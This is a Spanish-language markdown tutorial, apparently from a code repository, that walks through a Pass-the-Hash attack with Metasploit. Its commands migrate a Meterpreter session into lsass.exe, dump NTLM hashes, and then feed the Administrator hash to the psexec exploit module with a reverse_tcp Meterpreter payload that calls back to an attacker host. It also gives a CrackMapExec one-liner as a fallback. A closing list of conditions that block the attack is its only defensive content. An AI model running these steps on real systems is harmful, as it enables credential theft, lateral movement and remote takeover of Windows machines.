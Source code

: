 # Pass-the-Hash con PSExec en Metasploit

## ¿Qué es Pass-the-Hash?

Pass-the-Hash (PtH) es una técnica que permite autenticarte en un sistema Windows sin conocer la contraseña en texto claro, utilizando directamente el **hash NTLM** de la contraseña.

---

## Requisitos

- Acceso a una **sesión Meterpreter** en la máquina víctima.
- Privilegios administrativos en la sesión.
- El sistema objetivo debe **permitir autenticación SMB con NTLM**.

---

## Pasos para ejecutar Pass-the-Hash con PSExec

### 1. Obtener sesión Meterpreter

Tener una sesión activa en una máquina víctima.

---

### 2. Migrar a `lsass.exe` para obtener los hashes

```bash
ps
pgrep lsass
migrate <PID>
```

Esto te permite acceder a la memoria del proceso `lsass`, donde residen los hashes de los usuarios.

---

### 3. Verificar arquitectura del sistema

```bash
sysinfo
```

Esto es importante para identificar si los exploits o payloads deben ser `x86` o `x64`.

---

### 4. Volcar los hashes

```bash
hashdump
```

Obtendrás líneas como:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH>:...
```

Copia el hash de la cuenta `Administrator`.

---

### 5. Salir de la sesión Meterpreter

```bash
exit
```

---

### 6. Usar módulo `psexec` en Metasploit Framework

```bash
use exploit/windows/smb/psexec
```

---

### 7. Configurar los parámetros del exploit

```bash
set RHOSTS <IP de la víctima>
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP del atacante>
set LPORT <puerto>
run
```

Asegúrate de incluir el hash **en formato LM:NTLM**, aunque el LM esté vacío (`aad3b435b51404eeaad3b435b51404ee`).

---

## ¿Cuándo funciona Pass-the-Hash?

- Cuando el sistema remoto **acepta NTLM como método de autenticación** (por defecto en muchas versiones de Windows).
- El usuario cuyo hash tienes **tiene permisos administrativos** sobre el objetivo.
- El sistema **no tiene protecciones modernas como SMB signing obligatorio o credenciales protegidas**.

---

## Casos comunes donde no funciona

- **CredSSP, SMB Signing** o **Restricciones de NTLM** deshabilitan el acceso.
- El hash pertenece a un **usuario sin permisos suficientes**.
- El sistema tiene habilitadas medidas como **LSA Protection** o configuraciones avanzadas de seguridad.

---

## Alternativas si falla

- Usar el hash con **CrackMapExec**:
  ```bash
  crackmapexec smb <IP> -u Administrator -H <NTLM_HASH>
  ```

